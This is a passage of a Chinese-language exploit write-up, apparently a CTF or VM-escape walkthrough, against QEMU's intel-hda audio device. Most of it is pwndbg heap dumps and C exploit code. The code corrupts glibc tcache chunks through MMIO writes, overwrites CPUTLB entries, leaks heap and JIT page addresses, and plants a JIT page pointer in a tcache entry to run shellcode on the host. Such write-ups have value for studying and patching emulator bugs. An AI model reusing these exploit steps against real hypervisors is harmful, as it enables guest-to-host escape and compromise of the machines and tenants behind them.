pwndbg> b *(print_insn_objdump+137) if (($r14>=0x80)&&($r14<=0x88))
Breakpoint 3 at 0x5990b4d48da9: file /usr/include/glib-2.0/glib/glib-autocleanups.h, line 28.
pwndbg> c
Continuing.

Thread 3 "qemu-system-x86" hit Breakpoint 3, 0x00005990b4d48da9 in g_autoptr_cleanup_generic_gfree (p=<synthetic pointer>) at /usr/include/glib-2.0/glib/glib-autocleanups.h:28
28	  g_free (*pp);
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
─────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────────────────
*RAX  2
*RBX  0x86
*RCX  1
*RDX  0
*RDI  0x73377c335460 ◂— 0x89495741fa1e0ff3
*RSI  0x5990b5515275 ◂— 0x5f63633e2d636400
*R8   1
*R9   0x7337d3459097 ◂— 0x7c51055ee9670030 /* '0' */
*R10  0
*R11  0
*R12  0x86
*R13  0x5990b5515271 ◂— 0x2d63640078323025 /* '%02x' */
*R14  0x86
*R15  0x7337d3459210 —▸ 0x7337d40c9630 (fprintf) ◂— endbr64 
*RBP  0x73377c335460 ◂— 0x89495741fa1e0ff3
*RSP  0x7337d34591c0 ◂— 0x86
*RIP  0x5990b4d48da9 (print_insn_objdump+137) ◂— call g_free@plt
──────────────────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────────────────
 ► 0x5990b4d48da9 <print_insn_objdump+137>    call   g_free@plt                  <g_free@plt>
        rdi: 0x73377c335460 ◂— 0x89495741fa1e0ff3
        rsi: 0x5990b5515275 ◂— 0x5f63633e2d636400
        rdx: 0
        rcx: 1
 
   0x5990b4d48dae <print_insn_objdump+142>    add    rsp, 0x18
   0x5990b4d48db2 <print_insn_objdump+146>    mov    eax, r14d
   0x5990b4d48db5 <print_insn_objdump+149>    pop    rbx
   0x5990b4d48db6 <print_insn_objdump+150>    pop    rbp
   0x5990b4d48db7 <print_insn_objdump+151>    pop    r12
   0x5990b4d48db9 <print_insn_objdump+153>    pop    r13
   0x5990b4d48dbb <print_insn_objdump+155>    pop    r14
   0x5990b4d48dbd <print_insn_objdump+157>    pop    r15
   0x5990b4d48dbf <print_insn_objdump+159>    xor    edx, edx      EDX => 0
   0x5990b4d48dc1 <print_insn_objdump+161>    xor    ecx, ecx      ECX => 0
───────────────────────────────────────────────[ SOURCE (CODE) ]────────────────────────────────────────────────
In file: /usr/include/glib-2.0/glib/glib-autocleanups.h:28
   23 
   24 static inline void
   25 g_autoptr_cleanup_generic_gfree (void *p)
   26 {
   27   void **pp = (void**)p;
 ► 28   g_free (*pp);
   29 }
   30 
   31 static inline void
   32 g_autoptr_cleanup_gstring_free (GString *string)
   33 {
───────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────
00:0000│ rsp 0x7337d34591c0 ◂— 0x86
01:0008│     0x7337d34591c8 —▸ 0x5990b53c4aa9 ◂— 0x5500542d444a424f /* 'OBJD-T' */
02:0010│     0x7337d34591d0 —▸ 0x5990e9489770 —▸ 0x5990e9353020 —▸ 0x5990e91ae4f0 —▸ 0x5990e91ae670 ◂— ...
03:0018│     0x7337d34591d8 —▸ 0x7337d34593c0 —▸ 0x73378f240800 (code_gen_buffer+52692947) ◂— 0
04:0020│     0x7337d34591e0 ◂— 0x86
05:0028│     0x7337d34591e8 —▸ 0x7337d3459210 —▸ 0x7337d40c9630 (fprintf) ◂— endbr64 
06:0030│     0x7337d34591f0 —▸ 0x5990b53c4a0d ◂— '0x%08lx:  '
07:0038│     0x7337d34591f8 ◂— 0xffffffffac45e350
─────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────
 ► 0   0x5990b4d48da9 print_insn_objdump+137
   1   0x5990b4d48da9 print_insn_objdump+137
   2   0x5990b4d48bbf target_disas+207
   3   0x5990b51a0b6c translator_loop+1052
   4   0x5990b511bd70 x86_translate_code+48
   5   0x5990b519f4c4 setjmp_gen_code.constprop+148
   6   0x5990b519f982 tb_gen_code+370
   7   0x5990b519cfa2 cpu_exec_loop+1554
─────────────────────────────────────────────[ THREADS (3 TOTAL) ]──────────────────────────────────────────────
  ► 3   "qemu-system-x86" stopped: 0x5990b4d48da9 <print_insn_objdump+137> 
    1   "qemu-system-x86" stopped: 0x7337d43d70d0 <g_main_context_release> 
    2   "qemu-system-x86" stopped: 0x7337d418788d <syscall+29> 
────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> x /32gx 0x73377c335460
0x73377c335460:	0x89495741fa1e0ff3	0x55544155415641ff
0x73377c335470:	0x98ec814853f58948	0x65105e8b48000000
0x73377c335480:	0x0000002825048b48	0x0000009024848948
0x73377c335490:	0x052b48f88948c031	0x0c244c89015d4e64
0x73377c3354a0:	0x000000702444c748	0x10e18306f8c14800
0x73377c3354b0:	0x4824448948378b48	0x000000782444c748
0x73377c3354c0:	0x84c74820478b4800	0x0000000000008024
0x73377c3354d0:	0x2484c74840e68300	0x0000000000000088
0x73377c3354e0:	0xffff00000689840f	0xffffffffffffffff
0x73377c3354f0:	0xffffffffffffffff	0xffffffffffffffff
0x73377c335500:	0xffffffffffffffff	0xffffffffffffffff
0x73377c335510:	0xffffffffffffffff	0xffffffffffffffff
0x73377c335520:	0xffffffffffffffff	0xffffffffffffffff
0x73377c335530:	0xffffffffffffffff	0xffffffffffffffff
0x73377c335540:	0xffffffffffffffff	0xffffffffffffffff
0x73377c335550:	0xffffffffffffffff	0xffffffffffffffff
```

该堆块是在解析CPUTLBEntry之前就申请的，所以我们提前申请占用这个非法的0x90 tcache chunk：

```c
    *(uint8_t *)huge = 0;
    mmio_write64(hda_mmio_mem, ST_REG(2, ICH6_REG_SD_LVI), 0x9-2); // 提前占用非法的0x90 chunk
    kfunc(hijack_CPUTLB);
    mmio_write64(hda_mmio_mem, ST_REG(2, ICH6_REG_SD_CTL), SD_CTL_STREAM_RESET);
```

解决了这个错误又出现了新的错误，在释放大小为0x110的chunk1时，0x110的tcache bins已经满7个进入unsortedbin报错：

```gdb {hide=true}
Thread 3 "qemu-system-x86" received signal SIGABRT, Aborted.
__pthread_kill_implementation (no_tid=0, signo=6, threadid=133771414484544) at ./nptl/pthread_kill.c:44
44	./nptl/pthread_kill.c: No such file or directory.
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
─────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────────────────
*RAX  0
*RBX  0x79aa15a43640 ◂— 0x79aa15a43640
*RCX  0x79aa166e89fc (pthread_kill+300) ◂— mov r13d, eax
*RDX  6
*RDI  0x2c23
*RSI  0x2c25
*R8   0x79aa15a41b00 ◂— 0x20 /* ' ' */
*R9   0
*R10  8
*R11  0x246
*R12  6
*R13  0x16
*R14  1
*R15  1
*RBP  0x2c25
*RSP  0x79aa15a41a30 —▸ 0x79aa15a41b08 ◂— 0x1bf7000
*RIP  0x79aa166e89fc (pthread_kill+300) ◂— mov r13d, eax
──────────────────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────────────────
 ► 0x79aa166e89fc <pthread_kill+300>    mov    r13d, eax           R13D => 0
   0x79aa166e89ff <pthread_kill+303>    neg    r13d
   0x79aa166e8a02 <pthread_kill+306>    cmp    eax, 0xfffff000     0x0 - 0xfffff000     EFLAGS => 0x207 [ CF PF af zf sf IF df of ]
   0x79aa166e8a07 <pthread_kill+311>    mov    eax, 0              EAX => 0
   0x79aa166e8a0c <pthread_kill+316>    cmovbe r13d, eax
   0x79aa166e8a10 <pthread_kill+320>    jmp    pthread_kill+178            <pthread_kill+178>
    ↓
   0x79aa166e8982 <pthread_kill+178>    mov    rax, qword ptr [rsp + 0x88]     RAX, [0x79aa15a41ab8] => 0xd061ee360c955200
   0x79aa166e898a <pthread_kill+186>    sub    rax, qword ptr fs:[0x28]        RAX => 0 (0xd061ee360c955200 - 0xd061ee360c955200)
   0x79aa166e8993 <pthread_kill+195>    jne    pthread_kill+357            <pthread_kill+357>
 
   0x79aa166e8999 <pthread_kill+201>    add    rsp, 0x90     RSP => 0x79aa15a41ac0 (0x79aa15a41a30 + 0x90)
   0x79aa166e89a0 <pthread_kill+208>    mov    eax, r13d     EAX => 0
───────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────
00:0000│ rsp 0x79aa15a41a30 —▸ 0x79aa15a41b08 ◂— 0x1bf7000
01:0008│     0x79aa15a41a38 ◂— 0x1bf7000
02:0010│     0x79aa15a41a40 —▸ 0x79aa15a41b00 ◂— 0x20 /* ' ' */
03:0018│     0x79aa15a41a48 —▸ 0x55839f2776f8 (cpu_physical_memory_get_dirty.constprop+200) ◂— mov edx, dword ptr [rax + 0xc]
04:0020│     0x79aa15a41a50 —▸ 0x5583ce141770 —▸ 0x5583ce00b020 —▸ 0x5583cde664f0 —▸ 0x5583cde66670 ◂— ...
05:0028│     0x79aa15a41a58 ◂— 0x1bf7000
06:0030│     0x79aa15a41a60 ◂— 6
07:0038│     0x79aa15a41a68 ◂— 0x1bde000
─────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────
 ► 0   0x79aa166e89fc pthread_kill+300
   1   0x79aa166e89fc pthread_kill+300
   2   0x79aa166e89fc pthread_kill+300
   3   0x79aa16694476 raise+22
   4   0x79aa1667a7f3 abort+211
   5   0x79aa166db677 __libc_message+663
   6   0x79aa166f2cfc None
   7   0x79aa166f4e7c _int_free+2012
─────────────────────────────────────────────[ THREADS (3 TOTAL) ]──────────────────────────────────────────────
  ► 3   "qemu-system-x86" stopped: 0x79aa166e89fc <pthread_kill+300> 
    1   "qemu-system-x86" stopped: 0x79aa166e32c0 <__lll_lock_wait+48> 
    2   "qemu-system-x86" stopped: 0x79aa1677088d <syscall+29> 
────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> bt
#0  __pthread_kill_implementation (no_tid=0, signo=6, threadid=133771414484544) at ./nptl/pthread_kill.c:44
#1  __pthread_kill_internal (signo=6, threadid=133771414484544) at ./nptl/pthread_kill.c:78
#2  __GI___pthread_kill (threadid=133771414484544, signo=signo@entry=6) at ./nptl/pthread_kill.c:89
#3  0x000079aa16694476 in __GI_raise (sig=sig@entry=6) at ../sysdeps/posix/raise.c:26
#4  0x000079aa1667a7f3 in __GI_abort () at ./stdlib/abort.c:79
#5  0x000079aa166db677 in __libc_message (action=action@entry=do_abort, fmt=fmt@entry=0x79aa1682db77 "%s\n") at ../sysdeps/posix/libc_fatal.c:156
#6  0x000079aa166f2cfc in malloc_printerr (str=str@entry=0x79aa168307b0 "double free or corruption (!prev)") at ./malloc/malloc.c:5664
#7  0x000079aa166f4e7c in _int_free (av=0x79a9c0000030, p=0x79a9c0334d50, have_lock=<optimized out>) at ./malloc/malloc.c:4591
#8  0x000079aa166f7453 in __GI___libc_free (mem=<optimized out>) at ./malloc/malloc.c:3391
#9  0x000055839eeae939 in intel_hda_parse_bdl (d=d@entry=0x5583cee42510, st=st@entry=0x5583cee430f8) at ../hw/audio/intel-hda.c:475
#10 0x000055839eeaef37 in intel_hda_set_st_ctl (d=0x5583cee42510, reg=0x55839f801a60 <regtab+8960>, old=<optimized out>) at ../hw/audio/intel-hda.c:593
#11 0x000055839f250a94 in memory_region_write_accessor (mr=mr@entry=0x5583cee43390, addr=160, value=value@entry=0x79aa15a41fc8, size=size@entry=4, shift=<optimized out>, mask=mask@entry=4294967295, attrs=...) at ../system/memory.c:497
#12 0x000055839f251bfd in access_with_adjusted_size (addr=addr@entry=160, value=value@entry=0x79aa15a41fc8, size=size@entry=8, access_size_min=<optimized out>, access_size_max=<optimized out>, access_fn=0x55839f250a10 <memory_region_write_accessor>, mr=0x5583cee43390, attrs=...) at ../system/memory.c:573
#13 0x000055839f252c93 in memory_region_dispatch_write (mr=mr@entry=0x5583cee43390, addr=addr@entry=160, data=<optimized out>, data@entry=2, op=op@entry=MO_64, attrs=...) at ../system/memory.c:1560
#14 0x000055839f27666d in int_st_mmio_leN (cpu=cpu@entry=0x5583ce141770, full=full@entry=0x79a9c0898d50, val_le=val_le@entry=2, addr=addr@entry=212852896, size=size@entry=8, mmu_idx=mmu_idx@entry=2, ra=133770299023360, mr=0x5583cee43390, mr_offset=160) at ../accel/tcg/cputlb.c:2493
#15 0x000055839f2767be in do_st_mmio_leN (cpu=0x5583ce141770, full=0x79a9c0898d50, val_le=2, addr=212852896, size=8, mmu_idx=2, ra=133770299023360) at ../accel/tcg/cputlb.c:2528
#16 0x000055839f27affd in do_st_8 (ra=<optimized out>, memop=<optimized out>, mmu_idx=<optimized out>, val=2, p=<optimized out>, cpu=<optimized out>) at ../accel/tcg/cputlb.c:2717
#17 do_st8_mmu (cpu=0x5583ce141770, addr=11301, val=2, oi=6, ra=133770299023360) at ../accel/tcg/cputlb.c:2795
#18 0x000079a9d327a03f in code_gen_buffer ()
#19 0x000055839f270706 in cpu_tb_exec (cpu=cpu@entry=0x5583ce141770, itb=itb@entry=0x79a9d3279f00 <code_gen_buffer+52928211>, tb_exit=tb_exit@entry=0x79aa15a42718) at ../accel/tcg/cpu-exec.c:452
#20 0x000055839f270c5c in cpu_loop_exec_tb (tb_exit=0x79aa15a42718, last_tb=<synthetic pointer>, pc=<optimized out>, tb=0x79a9d3279f00 <code_gen_buffer+52928211>, cpu=0x5583ce141770) at ../accel/tcg/cpu-exec.c:902
#21 cpu_exec_loop (cpu=cpu@entry=0x5583ce141770, sc=sc@entry=0x79aa15a427b0) at ../accel/tcg/cpu-exec.c:1016
#22 0x000055839f2713e1 in cpu_exec_setjmp (cpu=cpu@entry=0x5583ce141770, sc=sc@entry=0x79aa15a427b0) at ../accel/tcg/cpu-exec.c:1033
#23 0x000055839f271a7d in cpu_exec (cpu=cpu@entry=0x5583ce141770) at ../accel/tcg/cpu-exec.c:1059
#24 0x000055839f103bc4 in tcg_cpu_exec (cpu=cpu@entry=0x5583ce141770) at ../accel/tcg/tcg-accel-ops.c:80
#25 0x000055839f10400f in mttcg_cpu_thread_fn (arg=arg@entry=0x5583ce141770) at ../accel/tcg/tcg-accel-ops-mttcg.c:94
#26 0x000055839f461fe1 in qemu_thread_start (args=<optimized out>) at ../util/qemu-thread-posix.c:541
#27 0x000079aa166e6ac3 in start_thread (arg=<optimized out>) at ./nptl/pthread_create.c:442
#28 0x000079aa16778850 in clone3 () at ../sysdeps/unix/sysv/linux/x86_64/clone3.S:81
pwndbg> x /32gx 0x79a9c0334d50
0x79a9c0334d50:	0x0000000000000000	0x0000000000000115
0x79a9c0334d60:	0x0000000000000000	0x0000000000000000
0x79a9c0334d70:	0x0000000000000000	0x0000000000000000
0x79a9c0334d80:	0x0000000000000000	0x0000000000000000
0x79a9c0334d90:	0x0000000000000000	0x0000000000000000
0x79a9c0334da0:	0x0000000000000000	0x0000000000000000
0x79a9c0334db0:	0x0000000000000000	0x0000000000000000
0x79a9c0334dc0:	0x0000000000000000	0x0000000000000000
0x79a9c0334dd0:	0x0000000000000000	0x0000000000000000
0x79a9c0334de0:	0x0000000000000000	0x0000000000000000
0x79a9c0334df0:	0x0000000000000000	0x0000000000000000
0x79a9c0334e00:	0x0000000000000000	0x0000000000000000
0x79a9c0334e10:	0x0000000000000000	0x0000000000000000
0x79a9c0334e20:	0x0000000000000000	0x0000000000000000
0x79a9c0334e30:	0x0000000000000000	0x0000000000000000
0x79a9c0334e40:	0x0000000000000000	0x0000000000000000
pwndbg> 
0x79a9c0334e50:	0x0000000000000000	0x0000000000000815
0x79a9c0334e60:	0x0000000007e00000	0x0000000007e00000
0x79a9c0334e70:	0xffffffffffffffff	0x000079a9c0000000
0x79a9c0334e80:	0x0000000000401000	0xffffffffffffffff
0x79a9c0334e90:	0x0000000000401000	0x000079a9cf678000
0x79a9c0334ea0:	0xffffffffffffffff	0xffffffffffffffff
0x79a9c0334eb0:	0xffffffffffffffff	0xffffffffffffffff
0x79a9c0334ec0:	0xffffffffffffffff	0xffffffffffffffff
0x79a9c0334ed0:	0xffffffffffffffff	0xffffffffffffffff
0x79a9c0334ee0:	0x00000000004c4000	0xffffffffffffffff
0x79a9c0334ef0:	0xffffffffffffffff	0x000079a9cf71e000
0x79a9c0334f00:	0xffffffffffffffff	0xffffffffffffffff
0x79a9c0334f10:	0xffffffffffffffff	0xffffffffffffffff
0x79a9c0334f20:	0x0000000000446000	0xffffffffffffffff
0x79a9c0334f30:	0x0000000000446000	0x000079a9cf23a000
0x79a9c0334f40:	0xffffffffffffffff	0xffffffffffffffff
pwndbg> bins
tcachebins
0x20 [  7]: 0x79a9c0098350 —▸ 0x79a9c027c430 —▸ 0x79a9c00fc270 —▸ 0x79a9c0029270 —▸ 0x79a9c03085a0 —▸ 0x79a9c002b3d0 —▸ 0x79a9c0159270 ◂— 0
0x40 [  7]: 0x79a9c03c89b0 —▸ 0x79a9c001aa80 —▸ 0x79a9c001a9f0 —▸ 0x79a9c001a5a0 —▸ 0x79a9c001a510 —▸ 0x79a9c001a3f0 —▸ 0x79a9c001a360 ◂— 0
0x50 [  7]: 0x79a9c08c2740 —▸ 0x79a9c08c02c0 —▸ 0x79a9c09755f0 —▸ 0x79a9c09759a0 —▸ 0x79a9c0975b50 —▸ 0x79a9c09760c0 —▸ 0x79a9c0976030 ◂— 0
0x60 [  7]: 0x79a9c00a3b50 —▸ 0x79a9c00a2df0 —▸ 0x79a9c00a2330 —▸ 0x79a9c009abd0 —▸ 0x79a9c0099810 —▸ 0x79a9c00983b0 —▸ 0x79a9c001b0b0 ◂— 0
0x70 [  7]: 0x79a9c02c8410 —▸ 0x79a9c0347690 —▸ 0x79a9c0386590 —▸ 0x79a9c034e190 —▸ 0x79a9c036b190 —▸ 0x79a9c0364200 —▸ 0x79a9c03353f0 ◂— 0xfffffff86563fcca
0x80 [  7]: 0x79a9c0371a00 —▸ 0x79a9c0370b80 —▸ 0x79a9c0365d80 —▸ 0x79a9c0363180 —▸ 0x79a9c03334d0 —▸ 0x79a9c0332550 —▸ 0x79a9c0330bc0 ◂— 0
0x90 [  7]: 0x79a9c090b7b0 ◂— 0x79a9c0335 /* '>\n' */
0xa0 [  7]: 0x79a9c035f7e0 —▸ 0x79a9c0018df0 —▸ 0x79a9c0386160 —▸ 0x79a9c034dd60 —▸ 0x79a9c036ad60 —▸ 0x79a9c0364600 —▸ 0x79a9c0330cd0 ◂— 0
0xb0 [  7]: 0x79a9c0371e00 —▸ 0x79a9c0370750 —▸ 0x79a9c036ee00 —▸ 0x79a9c0369d50 —▸ 0x79a9c0365950 —▸ 0x79a9c0362d50 —▸ 0x79a9c035fc00 ◂— 0
0xc0 [  7]: 0x79a9c00a5040 —▸ 0x79a9c00a20b0 —▸ 0x79a9c00a2ea0 —▸ 0x79a9c00a24f0 —▸ 0x79a9c00a23e0 —▸ 0x79a9c009a150 —▸ 0x79a9c009a040 ◂— 0
0xd0 [  7]: 0x79a9c036a930 —▸ 0x79a9c0364a00 —▸ 0x79a9c035a600 —▸ 0x79a9c0331820 —▸ 0x79a9c0331af0 —▸ 0x79a9c032ffe0 —▸ 0x79a9c0330790 ◂— 0
0xe0 [  7]: 0x79a9c0370320 —▸ 0x79a9c036f200 —▸ 0x79a9c036da00 —▸ 0x79a9c0369920 —▸ 0x79a9c0365520 —▸ 0x79a9c0362920 —▸ 0x79a9c0360000 ◂— 0
0xf0 [  7]: 0x79a9c0056f80 —▸ 0x79a9c036be40 —▸ 0x79a9c0380b10 —▸ 0x79a9c0369400 —▸ 0x79a9c035bb10 —▸ 0x79a9c0330a70 —▸ 0x79a9c00a1940 ◂— 0
0x110 [  7]: 0x79a9c0336cf0 —▸ 0x79a9c03355c0 ◂— 0xfffffff86563fcca
0x120 [  7]: 0x79a9c0370200 —▸ 0x79a9c036f2e0 —▸ 0x79a9c036dae0 —▸ 0x79a9c0369800 —▸ 0x79a9c03600e0 —▸ 0x79a9c035e6e0 —▸ 0x79a9c0356ce0 ◂— 0
0x130 [  7]: 0x79a9c069f850 —▸ 0x79a9c0105000 —▸ 0x79a9c0283cd0 —▸ 0x79a9c03874d0 —▸ 0x79a9c034d800 —▸ 0x79a9c0364ad0 —▸ 0x79a9c035a6d0 ◂— 0
0x140 [  5]: 0x79a9c0115140 —▸ 0x79a9c0380e00 —▸ 0x79a9c03690c0 —▸ 0x79a9c035be00 —▸ 0x79a9c00a1ef0 ◂— 0
0x150 [  7]: 0x79a9c0370600 —▸ 0x79a9c036eeb0 —▸ 0x79a9c036d6b0 —▸ 0x79a9c0369c00 —▸ 0x79a9c0365800 —▸ 0x79a9c0362c00 —▸ 0x79a9c035fcb0 ◂— 0
0x160 [  7]: 0x79a9c02af940 —▸ 0x79a9c034dc00 —▸ 0x79a9c036ac00 —▸ 0x79a9c03646a0 —▸ 0x79a9c035a2a0 —▸ 0x79a9c0332dd0 —▸ 0x79a9c00a4830 ◂— 0
0x170 [  7]: 0x79a9c0114bf0 —▸ 0x79a9c028e830 —▸ 0x79a9c03561c0 —▸ 0x79a9c0381200 —▸ 0x79a9c0366e90 —▸ 0x79a9c035c200 —▸ 0x79a9c0358690 ◂— 0
0x180 [  7]: 0x79a9c0371a80 —▸ 0x79a9c0370a00 —▸ 0x79a9c036ea80 —▸ 0x79a9c036a000 —▸ 0x79a9c0365c00 —▸ 0x79a9c0363000 —▸ 0x79a9c035f880 ◂— 0
0x190 [  7]: 0x79a9c03be7e0 —▸ 0x79a9c0691b30 —▸ 0x79a9c0264ec0 —▸ 0x79a9c0386400 —▸ 0x79a9c034e000 —▸ 0x79a9c036b000 —▸ 0x79a9c0364270 ◂— 0
0x1a0 [  6]: 0x79a9c0394520 —▸ 0x79a9c016fad0 —▸ 0x79a9c0022ee0 —▸ 0x79a9c0381600 —▸ 0x79a9c0360e60 —▸ 0x79a9c035c600 ◂— 0
0x1b0 [  7]: 0x79a9c028e470 —▸ 0x79a9c028b3e0 —▸ 0x79a9c0279b30 —▸ 0x79a9c0371650 —▸ 0x79a9c0370e00 —▸ 0x79a9c0366000 —▸ 0x79a9c0363400 ◂— 0
0x1c0 [  7]: 0x79a9c034e400 —▸ 0x79a9c036b400 —▸ 0x79a9c0363e40 —▸ 0x79a9c03311f0 —▸ 0x79a9c0330fe0 —▸ 0x79a9c00a16c0 —▸ 0x79a9c00a1d30 ◂— 0
0x1d0 [  7]: 0x79a9c034ec30 —▸ 0x79a9c0368030 —▸ 0x79a9c035da30 —▸ 0x79a9c035ae30 —▸ 0x79a9c0358e30 —▸ 0x79a9c0357430 —▸ 0x79a9c0334830 ◂— 0
0x1e0 [  7]: 0x79a9c037f020 —▸ 0x79a9c037d620 —▸ 0x79a9c0374c20 —▸ 0x79a9c0373a20 —▸ 0x79a9c036c620 —▸ 0x79a9c0366400 —▸ 0x79a9c035d220 ◂— 0
0x1f0 [  7]: 0x79a9c0251020 —▸ 0x79a9c06928c0 —▸ 0x79a9c069fa10 —▸ 0x79a9c0279fd0 —▸ 0x79a9c0375c90 —▸ 0x79a9c037ea00 —▸ 0x79a9c036b800 ◂— 0
0x200 [  6]: 0x79a9c0395640 —▸ 0x79a9c069e2b0 —▸ 0x79a9c01953a0 —▸ 0x79a9c0032660 —▸ 0x79a9c0382200 —▸ 0x79a9c0334200 ◂— 0
0x210 [  7]: 0x79a9c03747f0 —▸ 0x79a9c03735f0 —▸ 0x79a9c036c1f0 —▸ 0x79a9c035cdf0 —▸ 0x79a9c0358200 —▸ 0x79a9c033bd20 —▸ 0x79a9c0335ba0 ◂— 0
0x220 [  2]: 0x79a9c0250380 —▸ 0x79a9c069b390 ◂— 0
0x230 [  7]: 0x79a9c035d800 —▸ 0x79a9c035ac00 —▸ 0x79a9c0359400 —▸ 0x79a9c0358c00 —▸ 0x79a9c0357a00 —▸ 0x79a9c0357200 —▸ 0x79a9c0334600 ◂— 0
0x250 [  2]: 0x79a9c0265050 —▸ 0x79a9c0121630 ◂— 0
0x260 [  1]: 0x79a9c0256c10 ◂— 0
0x270 [  1]: 0x79a9c0114db0 ◂— 0
0x280 [  1]: 0x79a9c08231f0 ◂— 0
0x290 [  2]: 0x79a9c02513b0 —▸ 0x79a9c00f48a0 ◂— 0
0x2b0 [  1]: 0x79a9c0257080 ◂— 0
0x2d0 [  2]: 0x79a9c0101cf0 —▸ 0x79a9c00562b0 ◂— 0 /* 'V' */
0x2f0 [  2]: 0x79a9c024eff0 —▸ 0x79a9c069f430 ◂— 0
0x310 [  2]: 0x79a9c0352020 —▸ 0x79a9c00f4f40 ◂— 0
0x330 [  1]: 0x79a9c0064d20 ◂— 0 /* 'd' */
0x340 [  2]: 0x79a9c01df310 —▸ 0x79a9c03531f0 ◂— 0
0x350 [  1]: 0x79a9c0121290 ◂— 0
0x380 [  7]: 0x79a9c09a2a30 —▸ 0x79a9c0067240 —▸ 0x79a9c01345e0 —▸ 0x79a9c00545f0 —▸ 0x79a9c029a160 —▸ 0x79a9c027e2b0 —▸ 0x79a9c027bc30 ◂— 0
0x390 [  1]: 0x79a9c036e6f0 ◂— 0
0x3a0 [  2]: 0x79a9c0222bf0 —▸ 0x79a9c06b4da0 ◂— 0
0x3c0 [  7]: 0x79a9c0850310 —▸ 0x79a9c08219d0 —▸ 0x79a9c08215c0 —▸ 0x79a9c0258900 —▸ 0x79a9c02584f0 —▸ 0x79a9c02cd700 —▸ 0x79a9c02cd2f0 ◂— 0
0x3e0 [  2]: 0x79a9c06af850 —▸ 0x79a9c06afc30 ◂— 0
0x3f0 [  1]: 0x79a9c037f810 ◂— 0
0x400 [  1]: 0x79a9c0056b80 ◂— 0 /* 'V' */
0x410 [  3]: 0x79a9c06b0420 —▸ 0x79a9c06b0010 —▸ 0x79a9c019c1e0 ◂— 0
fastbins
0x20: 0x79a9c01c1ae0 —▸ 0x79a9c01c1960 —▸ 0x79a9c01c1210 —▸ 0x79a9c01c1750 —▸ 0x79a9c01c0fb0 —▸ 0x79a9c01c0f10 —▸ 0x79a9c01c0a00 —▸ 0x79a9c01c0e50 ◂— ...
0x40: 0x79a9c01c2040 —▸ 0x79a9c01c1fb0 —▸ 0x79a9c01c1da0 —▸ 0x79a9c01c1d10 —▸ 0x79a9c01c1c80 —▸ 0x79a9c01c1b00 —▸ 0x79a9c01c1a70 —▸ 0x79a9c01c1980 ◂— ...
0x50: 0x79a9c01c1ff0 —▸ 0x79a9c01c1f60 —▸ 0x79a9c01c1cc0 —▸ 0x79a9c01c1a20 —▸ 0x79a9c01c18a0 —▸ 0x79a9c01c1150 —▸ 0x79a9c01c0dc0 —▸ 0x79a9c01c0d30 ◂— ...
0x60: 0x79a9c01bff60 —▸ 0x79a9c01bfd30 —▸ 0x79a9c01bd4d0 —▸ 0x79a9c01bd5f0 —▸ 0x79a9c01bca30 —▸ 0x79a9c01bb510 —▸ 0x79a9c01b9240 —▸ 0x79a9c03a0b30 ◂— ...
0x70: 0x79a9c01bf300 —▸ 0x79a9c01be580 —▸ 0x79a9c01b9ac0 —▸ 0x79a9c01b9340 —▸ 0x79a9c01b9080 —▸ 0x79a9c039c700 —▸ 0x79a9c039a880 —▸ 0x79a9c0398e80 ◂— ...
0x80: 0x79a9c01c0050 —▸ 0x79a9c01bfe20 —▸ 0x79a9c01bd6e0 —▸ 0x79a9c01bcb20 —▸ 0x79a9c01bb600 —▸ 0x79a9c01b8b30 —▸ 0x79a9c039d380 —▸ 0x79a9c039d270 ◂— ...
unsortedbin
all: 0x79a9c01c24a0 —▸ 0x79a9c0000090 ◂— 0x79a9c01c24a0
smallbins
0x20: 0x79a9c0909340 —▸ 0x79a9c09ce300 —▸ 0x79a9c0060a20 —▸ 0x79a9c0905400 —▸ 0x79a9c09ce130 —▸ 0x79a9c0898dd0 —▸ 0x79a9c09ce4d0 —▸ 0x79a9c09cead0 ◂— ...
0x70: 0x79a9c09ce400 —▸ 0x79a9c09cea00 —▸ 0x79a9c089a140 —▸ 0x79a9c09176c0 —▸ 0x79a9c090df00 —▸ 0x79a9c0906a80 —▸ 0x79a9c090c680 —▸ 0x79a9c090a940 ◂— ...
0x80: 0x79a9c09cd630 —▸ 0x79a9c090eca0 —▸ 0x79a9c0915b60 —▸ 0x79a9c090b690 —▸ 0x79a9c090f520 —▸ 0x79a9c090e000 —▸ 0x79a9c090b130 —▸ 0x79a9c090bfc0 ◂— ...
largebins
0x40000-0x7fff0: 0x79a9c09f3150 —▸ 0x79a9c0000850 ◂— 0x79a9c09f3150
0x80000-∞: 0x79a9c06b5eb0 —▸ 0x79a9c05d5c00 —▸ 0x79a9c0000860 ◂— 0x79a9c06b5eb0
```

所以我们需要在释放0x110的chunk2之前提前申请一个0x110 tcache chunk为其挪出一个空位：

```c
    // 使0x110 tcache bin中只有6个chunk
    set64(7, 0x108, 0x35); // 提前看了一下后面堆块的大小是0x30，这里顺手伪造一下，减少问题
    parse_bdlp(7, 0x11-2);
    // 伪造chunk1.size=0x110
    set64(0, 0xf8, 0x115);
    parse_bdlp(0, 0x10-2);

    volatile void *hit = mmio_init((void *)0x7e00000, 0, 0x1000);
    *(uint8_t *)hit = 0;   // CPUTLB[0]写入映射
    parse_bdlp(1, 0x11-2); // 释放0x110 chunk进入tcache再取出，溢出覆盖CPUTLB[0].addr_read/write=0
```


## Step3: Leak and execute shellcode in JIT page

泄露线程堆arena中的指针，得到线程堆（theap）和JIT page的地址，而后将JIT page指针写入theap的任意tcache entry（这里写入的是0x1a0 tcache entry），申请到JIT page内存写入shellcode即可完成利用：

```c
    /* Step3: Leak and execute shellcode in JIT page */
    volatile uint64_t *target = 0;
    //for (size_t i = 0; i < 0x10; i++)
    //    printf("[0x%lx] %p\n", i, (void *)target[i]);

    uint64_t theap = target[0] - 0x30;
    uint64_t jit = target[0x17f] - 0x2d;
    printf("[*] theap: %p\n", (void *)theap);
    printf("[*] jit: %p\n", (void *)jit);

    // 0x1a0 tcache entry
    target[0xa20/8] = jit;
